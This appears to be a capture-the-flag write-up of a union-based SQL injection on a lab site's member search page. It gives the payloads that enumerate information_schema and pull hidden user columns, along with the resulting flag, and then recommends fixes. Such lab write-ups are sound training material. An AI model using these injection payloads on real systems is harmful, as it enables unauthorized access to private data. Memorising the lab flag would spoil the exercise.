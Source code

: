 # Union-based SQL injection

## Description

An SQL injection vulnerability leading to access some hidden data, containing among it the flag

## Steps to Reproduce

On the Members page, it is possible to search a member by member ID. \
When we enter 5, it says "try hack me".
We can see that if we try to add some sql syntax after the input, we receive an SQL error.
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1
```
So the website sends directly the input to SQL, and maybe we can use that.

We used the union-based SQL query to access some more informations about the members table.
> In SQL language, the UNION operator is used to merge the result of 2 queries, this adds the desired data to the data present in the first SQL query.


```sql
5 UNION SELECT table_name, column_name FROM information_schema.columns
```

To see all columns from users.

We observe some columns that are not displayed, e.g. `Commentaire` and `countersign`.

```sql
5 UNION SELECT commentaire, countersign FROM users
```

it gives us, amongst the others user_id (1, 2, 3 and 4), for the 5th:
```
ID: 5 UNION SELECT commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

--> after doing these steps, we had the flag `3b4e8a30ecbfde518f50f2bda1912b40338ecd71821faeb1e9cdf44cefff95f5`

## Danger

**Data Exposure:** The vulnerability allows an attacker to access sensitive data that should not be available to unauthorized users. Here it is comments and countersign.

## Recommended fixe

1. **Input Sanitization:**

- **Identify User Inputs**: Review all entry points in your applications where users can submit data, such as forms and search bars. This also includes `GET` and `POST` requests, cookies, and any other user-submitted inputs.
- **Implement Input Validation**: Ensure that user inputs adhere to strict, defined rules for data types, lengths, and allowed characters. For example, if expecting a number, check if the input is indeed numeric. Use validation functions like `filter_var()` in PHP or regex patterns in JavaScript.
- **Sanitize Input**: Once validated, sanitize the input by removing or encoding potentially malicious characters. For PHP, you can try functions like `htmlspecialchars()` or `htmlentities()`. For JavaScript, you use `encodeURIComponent()`.
- **Use Prepared Statements for Database Queries**: Avoid directly inserting user inputs into SQL queries. Instead, use prepared statements with bound parameters to prevent SQL injection attacks. This way, inputs are treated as data, not executable code.

Source: [esecurityplanet.com](https://www.esecurityplanet.com/endpoint/prevent-web-attacks-using-input-sanitization/#:~:text=Input%20sanitization%20is%20the%20process,link%20for%20any%20organization's%20cybersecurity.)

2. **Error Handling:** don't expose detailed error messages to users. SQL errors provide attackers with clues about the database structure. The best is to use generic error messages.

5. **Database Permissions:** The database user should have the least privileges necessary. For example, the user should not have the `SELECT` permissions on system tables like `information_schema`.

6. **Regular Security Audits:** Regularly audit the application for vulnerabilities, particularly SQL injection, by performing penetration testing and code reviews.

